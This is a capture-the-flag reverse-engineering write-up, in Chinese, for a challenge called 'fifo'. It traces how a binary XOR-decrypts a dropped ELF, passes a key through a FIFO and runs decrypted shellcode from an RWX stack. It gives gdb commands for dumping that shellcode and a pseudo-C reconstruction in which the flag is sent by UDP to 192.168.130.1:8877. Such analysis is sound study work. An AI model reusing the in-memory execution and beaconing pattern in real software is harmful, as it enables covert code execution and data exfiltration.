







# fifo `Reverse` [250]

## Short Solution

執行 `./fifo` ，發現它建立了 `/tmp/bnpkevsekfpk3` 資料夾及 `/tmp/khodsmeogemgoe` 的 ELF，透過 `ps aux` 查看 process，發現 `/tmp/khodsmeogemgoe` 在執行，透過 gdb attach 上去即可在 stack 找到 flag。



## Long Solution

### fifo

在 `main` 一開始，透過 xor 的方式將 `dirname`、`filename` 和 `bin` 解密。





<div style="page-break-after: always;"></div>

接下來會將解密後的 `bin` 寫入 `/tmp/khodsmeogemgoe` ，fork 並執行。



在 `main` 的最後會建立 `/tmp/bnpkevsekfpk3` 資料夾，並在 `/tmp/bnpkevsekfpk3/aw3movsdirnqw` 建立 fifo，再將 key 寫入到 fifo。



### /tmp/khodsmeogemgoe

checksec 發現它存在 RWX segment。



它會讀取 fifo 的內容，將 payload 透過相同的 decrypt function 解密，因為 stack 是 RWX segment，可以直接將 buf 當成 code 執行。



### Shellcode

透過 gdb 設定中斷點，並 follow fork child，可以直接 dump 出 shellcode。

````shell
b close
set follow-fork-mode child
r
````

停在 `call rax` ，發現 `$rdi` (`payload`) 就是 flag。
透過 `dump memory shellcode $rax $rax+216` 將 shellcode 存下來。

透過 radare2 deassembly shell code，分析過後整理大致如下。

```c
int fd = syscall(0x29, 2, 2, 0x11);  // socket
syscall(0x36, fd, 1, 6, [1], 4); // setsockopt
while 1:
    // sendto
	struct sockaddr addr{ 2, 0, 8877, 0xC0A88201, 1, 0 };
    syscall(0x2C, fd, [1], 0x18, 0, addr, 0x10);
    syscall(0xE6, 0, 0, [3], 0); // clock_nanosleep
```

shellcode 會開啟 socket，往 `192.168.130.1:8877/udp` 送出 flag。
